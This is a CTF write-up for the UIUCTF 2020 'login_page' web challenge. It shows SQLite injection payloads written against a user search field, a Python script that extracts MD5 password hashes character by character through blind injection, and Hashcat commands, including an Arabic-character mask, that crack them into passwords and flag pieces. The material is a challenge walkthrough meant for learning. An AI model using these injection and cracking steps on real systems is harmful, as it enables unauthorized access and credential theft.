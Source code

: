 ```yaml
---
layout: post
title: "UIUCTF 2020 Writeups"
categories: ctf
---
```


## Introduction {#intro}
{: style="text-align: center"}

| Challenge Name | Category | Solves | Points |
|:--------------:|:--------:|:------:|:------:|
|[login_page](#login_page) | Web | 23 | 200 |


----------------

## login_page {#login_page}
{: style="text-align: center"}
#### Category: Web | Solves: 23 | Points: 200
{: style="text-align: center"}

----------------

{:refdef: style="text-align: center;"}
![login_page challenge description](https://i.imgur.com/mCYRHDL.png){: .imgCenter}
{: refdef}

The site is rather simple, with only a small login box and a user lookup feature.  Since we're told the site is running SQLite, it's a safe we're looking for something revolving around an injection. We try searching for just the SQLite wildcard "%" (which matches any string of 0 or more characters) and we're presented with a nice list of all the users in the database. 

{:refdef: style="text-align: center;"}
![user list found using sqlite wildcard](https://i.imgur.com/p5ULjCj.png){: .imgCenter}
{: refdef}

From here, we try to log in as Alice and are told we have the wrong password, but also given a password hint. 

{:refdef: style="text-align: center;"}
![login hint for alice](https://i.imgur.com/24imHr2.png){: .imgCenter}
{: refdef}

After playing around with injections for a little while, we find a nested SELECT query which proves to be extremely useful. By querying the `sqlite_master` table we can ask for data from any column in the database, but we can't actually SEE it. When we combine the nested SELECT query with a conditional AND statement, we can start to piece together the contents of those columns.

Through trial and error, we find that there are three basic ways in which the server can respond to our queries: with data, with no data, or with an error. Each of these happens in a different situation and gives us more insight into the structure of the database.

First, since we already know `USERNAME` exists, we use this as a baseline for a known-good query. We see that we get user data back when a specific column exists.
` %" AND username in (SELECT username FROM sqlite_master where username like "%") -- - `

Next we try an obviously non-existent column to establish a baseline response for the negative.  When this is the case, we get the message `ERROR: Something went wrong!`
`%" AND username in (SELECT username FROM sqlite_master where FAKE like "%") -- -`

Using this knowledge we can guess at what the password column must be called, and after a couple tried we find that "password_hash" doesn't throw us any errors.  Now that we know what we're up against, we can switch up our query and use our old wildcard friend to brute-force the key using a query like:
`bob" AND username in (SELECT username FROM sqlite_master where password_hash like "4%") -- -`

This is Python script that will be responsible for doing all of the heavy lifting:

{% highlight python %}
import requests
chars = '1234567890abcdef'                    # list of hex characters
names = ['alice','bob','carl','dania','noob'] # list of usernames

def hashfinder(x, name):                      # we create a function for the repetitive task of brute-forcing
    url = 'https://login.chal.uiuc.tf/search'
    query = {'request' : name+'" AND username in (SELECT username FROM sqlite_master where password_hash like "'+x+'%") -- -'}
    req = requests.post(url, data=query)      # send request with our injection payload
    if 'is '+name in req.text:                # we check for the correct bio (since username also appears in the textbox)
        return(x)                             # and return the character if it's correct

for name in names:                            # for every username
    pwhash=''                                 # we clear the hash and start again
    while len(pwhash) < 32:                   # then, while it's not a full md5 hash
        for y in chars:                       # try to add a character
            if hashfinder(pwhash+y, name):    # to what we already know
                pwhash+=y                     # if it works, we start on the next one
                if len(pwhash) == 32:         # and if we have a full hash
                    print(name +':'+ pwhash)  # we print it with the username
{% endhighlight %}

Which gives us the output of:

| name | hash |
|------|------|
| alice | 530bd2d24bff2d77276c4117dc1fc719 |
| bob | 4106716ae604fba94f1c05318f87e063 |
| carl | 661ded81b6b99758643f19517a468331 |
| dania | 58970d579d25f7288599fcd709b3ded3 |
| noob | 8553127fedf5daacc26f3b677b58a856 |

Now that we have extracted all the hashes, we can get to work trying to crack them using the hints we are given.  Luckily, there is only one hash without a corresponding hint (`8553127fedf5daacc26f3b677b58a856`) and with a simple Google search we find out that the password is `SoccerMom2007`. We use this password to sign in and are given the first part of our flag : `uiuctf{Dump`
Side note: the password/hash combo is on Google because it is in the very popular [RockYou wordlist](https://github.com/praetorian-code/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) that is very commonly used in CTF-like challenges and is even included in Kali Linux (can be found in `/usr/share/wordlists/rockyou.txt.gz`)

The second and third hashes are cracked very quickly with a very basic Hashcat command. It's worth noting that Hashcat has a built in mode for double MD5 (-m 2600), so Bob's password isn't really any harder to crack than Alice's as far as the commands go (although double MD5 is obviously slightly slower to crack.) If you want to learn more about the basics of cracking hashes with Hashcat, you can do so [here](https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/)

Hash number four requires us to build our own wordlist in the format of [Greek God name](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-gods-txt) + [U.S. State name](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-states-txt). This can be accomplished by finding these two separate lists on Google, and mixing with a [quick Python script](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-combine-py). I'm not going to include it here since it's mundane, but you can click the links if you want to see the lists and code behind this task. We found that the password ended up being `DionysusDelaware` and claimed the 4th piece of the flag.

The fifth and final hash is the most interesting one of the bunch.  The password hint is in Arabic and translates to `My favorite animal (6 characters only)` (this was later updated to specify _Arabic_ characters.) We ran it against a few animal wordlists to make sure it wasn't going to be THAT easy before deciding to crack the hash by guessing Arabic characters. This is tricky, but doable running Hashcat with the following arguments:

`hashcat -m 0 -a 3 --hex-charset -1 d8d9dadb -2 808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf -o output hashes "?1?2?1?2?1?2?1?2?1?2?1?2"`

On this [UTF-8 encoding table,](https://utf8-chartable.de/unicode-utf8-table.pl?start=1536) Arabic letters span 256 characters from `D880` to `DBBF`. We split up these two bytes and create a mask for each, meaning that each single Arabic letter is represented in the mask by a `?1?2` pair. Once we get the rule written, the hash is cracked rather quickly. With the final hash cracked, all we have to do is put together the five pieces of the flag and claim out 200 points!


| name | hint | hash | password | flag |
|------|------|------|----------|------|
| noob | `(none)` | 8553127fedf5daacc26f3b677b58a856 | SoccerMom2007 | `Here's part 0 of the flag: uiuctf{Dump` |
| alice | `My phone number (format: 000-000-0000)` | 530bd2d24bff2d77276c4117dc1fc719 | 704-186-9744 | `Here's part 1 of the flag: _4nd_un` |
| bob | `My favorite 12 digit number (md5 hashed for extra security) [starts with a 10]` | 4106716ae604fba94f1c05318f87e063 | 5809be03c7cc31cdb12237d0bd718898 | `Here's part 2 of the flag: h45h_63` |
| carl | `My favorite Greek God + My least favorite US state (no spaces)` | 661ded81b6b99758643f19517a468331 | DionysusDelaware | `Here's part 3 of the flag: 7_d4t_` |
| dania | `الحيوان المفضل لدي (6 أحرف عربية فقط)` | 58970d579d25f7288599fcd709b3ded3 | طاووسة | `Here's part 4 of the flag: c45h` |

-name: Noob
-hint: (none)
-hash: 8553127fedf5daacc26f3b677b58a856
-pass: SoccerMom2007
-flag: You have successfully logged in! Here's part 0 of the flag: uiuctf{Dump

-name: Alice
-hint: My phone number (format: 000-000-0000) 
-hash: 530bd2d24bff2d77276c4117dc1fc719
-pass: 704-186-9744
-flag: You have successfully logged in! Here's part 1 of the flag: _4nd_un

-name: Bob
-hint: My favorite 12 digit number (md5 hashed for extra security) [starts with a 10] 	
-hash: 4106716ae604fba94f1c05318f87e063
-pass: 5809be03c7cc31cdb12237d0bd718898 (md5 of 102420484096)
-flag: You have successfully logged in! Here's part 2 of the flag: h45h_63

-name: Carl
-hint: My favorite Greek God + My least favorite US state (no spaces)
-hash: 661ded81b6b99758643f19517a468331
-pass: DionysusDelaware
-flag: You have successfully logged in! Here's part 3 of the flag: 7_d4t_

-name: Dania
-hint: الحيوان المفضل لدي (6 أحرف عربية فقط)  (Translated : `My favorite animal (6 Arabic characters only)`)
-hash: 58970d579d25f7288599fcd709b3ded3
-pass: طاووسة
-flag: You have successfully logged in! Here's part 4 of the flag: c45h}


----------------

{:refdef: style="text-align: center;"}
[--- Back to Top ---](#intro)
{: refdef}

----------------
